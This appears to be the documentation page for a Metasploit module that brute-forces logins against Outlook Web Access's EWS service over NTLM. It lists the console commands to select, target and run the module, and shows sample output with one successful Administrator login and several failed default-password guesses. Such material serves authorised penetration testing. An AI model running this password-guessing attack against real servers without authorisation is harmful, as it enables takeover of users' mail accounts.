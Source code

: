 This module is for password guessing against OWA's EWS service which often exposes NTLM authentication over HTTPS.
It is typically faster than the traditional form-based OWA login method.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/owa_ews_login```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
4. Do: ```run```

## Scenarios

```
msf auxiliary(owa_ews_login) > run

[+] Found NTLM service at /ews/ for domain OWAMSF.
[+] OWA_EWS - Successful login: Administrator:monkey
[-] OWA_EWS - Failed login: root:
[-] OWA_EWS - Failed login: admin:
[-] OWA_EWS - Failed login: guest:
[-] OWA_EWS - Failed login: root:root
[-] OWA_EWS - Failed login: root:password
[-] OWA_EWS - Failed login: root:1234
```
